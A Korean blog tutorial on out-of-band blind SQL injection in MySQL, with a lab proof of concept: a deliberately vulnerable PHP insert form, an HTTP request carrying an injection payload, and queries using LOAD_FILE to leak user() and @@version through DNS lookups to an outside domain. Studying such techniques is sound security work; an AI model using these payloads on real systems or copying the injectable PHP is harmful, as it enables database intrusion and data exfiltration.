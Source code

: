 ```yaml
---
layout: post
title:  "SQL Injection - Out of band"
tag:   Analysis
categories: Web
---
```


## 서론
SQL Injection이 가능하지만 In band(Error based, Union)로는 결과를 확인 할 수 없을때, 그 외에 Boolean based, Time based로는 결과를 확인할 수 없거나 너무 느릴 때 OOB(Out of band) 기법을 사용합니다.

오래 전에 공개된 기법이기에 운영체제별, DBMS 종류별, 버전별로 공격이 불가능 할 수도 있습니다. 하지만 최근에 paypal에서 발생한 취약점 때문에 아직까지도 실효성이 있다고 판단했습니다.

> Paypal Bug bounty 2016 - Exploiting Blind SQLI using OOB technique - https://youtu.be/_i9u8O2ehlg

> DEFCON 15 - https://www.youtube.com/watch?v=QzZyFcjQ25Y

## Out of band
Out of band는 쿼리의 결과를 다른 외부 채널을 통해 전달하는 기법입니다. 예를들어 쿼리의 결과를 HTTP 패킷에 담아서 보내기도하고, DNS 서버에 질의를 보내게 하기도 합니다.

```SQL
SELECT LOAD_FILE(CONCAT('\\\\',(select @@version),'.nisambot.com\\test'));
-- 5.5.11.nisambot.com을 DNS 서버에 질의를 함
```
> DNS를 이용한 OOB 예시 - mysql

## MYSQL DNS OOB - PoC

![main.PNG]({{ site.url }}/assets/image/2016-12-09/main.png)

공격 대상이 되는 서버의 웹페이지 입력폼입니다.

> 공격 대상 서버 환경 Windows xp sp3, apache 2.4.9, mysql 5.5.36, PHP Version 5.4.27

<br />

```php
<?php
// insert.php

$conn = mysqli_connect("localhost", "***", "***", "***");

$query = "INSERT INTO contact (email, subject, message) VALUES ('".$_POST['email']."', '".$_POST['subject']."', '".$_POST['message']."');"; // SQLI 발생

mysqli_query($conn, $query);

?>
```
유저의 입력값이 삽입되어 SQLI가 발생하는 파일입니다. 응답값 없이 INSERT 구문만 처리합니다.

<br />

```mysql
mysql> desc contact;
+---------+---------------------+------+-----+---------+----------------+
| Field   | Type                | Null | Key | Default | Extra          |
+---------+---------------------+------+-----+---------+----------------+
| no      | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
| email   | varchar(100)        | YES  |     | NULL    |                |
| subject | varchar(300)        | YES  |     | NULL    |                |
| message | varchar(300)        | YES  |     | NULL    |                |
+---------+---------------------+------+-----+---------+----------------+
```
TABLE 구조입니다.

<br />

```HTTP
POST http://192.168.2.3/insert.php HTTP/1.1
Host: 192.168.2.3
Connection: keep-alive
Content-Length: 133
Cache-Control: max-age=0
Origin: http://192.168.2.3
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://192.168.2.3/
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

email=asdf&subject='%2C+(SELECT+LOAD_FILE(CONCAT('%5C%5C%5C%5C'%2C(select+user())%2C'.nisambot.com%5C%5Ctest'))))%3B+--+&message=asdf
```
SQLI에 취약한 파라미터에 쿼리문을 작성해서 전송합니다.

<br />

```SQL
INSERT INTO contact (email, subject, message) VALUES ('asdf', '', (SELECT LOAD_FILE(CONCAT('\\\\',(select user()),'.nisambot.com\\test')))); -- ', 'asdf');
```
최종적으로 서버 완성되는 쿼리입니다.

<br />

![dns질의.PNG]({{ site.url }}/assets/image/2016-12-09/dns_query.png)

쿼리가 실행되는 서버에서 캡처한 패킷입니다.

user() 함수의 반환값인 root@localhost를 문자열과 합쳐 DNS서버에 질의하게 됩니다. (특수문자 같은것이 포함되므로 hex값으로 바꿔서 보내는것이 좋음)

DNS 서버를 구축하여 DNS 질의를 받아본다면 공격자 서버에서도 같은 결과를 받아볼 수 있습니다.
